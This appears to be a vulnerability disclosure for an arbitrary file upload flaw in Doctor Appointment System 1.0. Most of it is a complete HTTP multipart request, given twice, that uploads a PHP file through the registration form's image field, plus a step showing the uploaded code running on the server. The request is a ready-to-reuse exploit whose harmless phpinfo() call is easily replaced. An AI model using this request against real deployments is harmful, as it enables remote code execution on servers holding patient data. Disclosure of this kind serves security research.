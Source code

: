 
# Doctor Appointment System 1.0 - Arbitrary File Upload
#### Exploit Title: Doctor Appointment System 1.0 - Arbitrary File Upload  
#### Version：Doctor Appointment System 1.0
#### Google Dork: N/A
#### Date: 08/26//2022
#### Tested on：Apache2.4.39，Mysql5.7.26，PHP5.5.9
#### Software Link: https://github.com/divScorp/Doctor-Appointment

#### Description：Doctor Appointment System contain arbitrary file upload.Registered user can upload info.php files in attachments section with use of intercept tool in Burp Suite to edit the raw.
  
<br />

#### Payload used:
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```

<br />

#### Example：

1.User registration

http://127.0.0.1/Doctor-Appointment/Frontend/signup.php

![1.png](./1.PNG)

2.Send Payload
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```
<br />
3.Successfully executed phpinfo()

http://127.0.0.1/Doctor-Appointment/Frontend/imge/info.php

![2.png](./2.PNG)

















